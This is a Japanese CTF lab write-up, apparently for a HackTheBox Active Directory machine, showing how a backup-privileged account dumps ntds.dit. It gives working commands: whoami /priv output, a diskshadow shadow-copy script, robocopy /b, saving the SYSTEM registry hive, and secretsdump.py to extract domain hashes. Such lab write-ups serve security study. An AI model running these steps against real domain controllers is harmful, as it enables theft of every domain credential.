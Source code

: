 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`


c.f.)
- 複数のやり方が書いてある -> [Tha Hacker Recipies](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
- 実際にうまく動いた -> [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

# 一番手っ取り早い方法

[このスクリプト](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)を使う：


![change_permission](https://user-images.githubusercontent.com/85237728/149320232-492d553b-6219-4981-b06c-5a81d6d61cac.png)

（**BLACKFIELD.local**はドメイン名。**svc_backup**はカレントユーザ）


`whoami`でsystemとは出ないが、確かにroot.txtが読めた。すなわちsystem権限を奪取した。



# 実際にやってみた（参考：[Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)）

ntds.ditのコピーにおいて、普通の`copy`コマンドではpermission deniedになってしまう。そこで`robocopy`を使う。特に`/b`（または`/B`）フラグで**バックアップとして**コピーができる。つまりAdmin権限がなくても、backupユーザの権限があればpermission deniedにならない（[robocopyについての詳細](https://n-archives.net/software/robosync/articles/robocopy-specs-and-command/#i-3-1)）

*注）先に`mkdir C:\temp`として一時的なディレクトリを作っておく*

-> しかし`PS C:\temp> roboropy C:\Windoes\NTDS\ntds.dit . ntds.dit`というふうに直接コピーすると、現在アクティブなのでコピーできないと言われる。

-> そこで新しいドライブを作り、`diskshadow`でドライブ間のコピーを行うという方法をとる

（スクリプト）

```
┌──(kali㉿kali)-[~]
└─$ cat back_script.txt
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- スクリプトターゲット上にアップロード（遅かったらsmb使おう）：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> upload /home/kali/back_scrip.txt
```

- `diskshadow`コマンドにスクリプトを指定して実行：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> diskshadow /s back_script.txt
```

これで E:\ ドライブに C:\ ドライブの内容がコピーされた。E:\は現在アクティブじゃないから、`robocopy`が使える：

```
*Evil-WinRM* PS E:\> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
```

- ntds.ditの復号にはレジストリのキーが必要なのでそれをロードする：

```
*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
```

その後**ntds.dit**と**system**をKaliに転送する。

Kali上でcrack：

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```
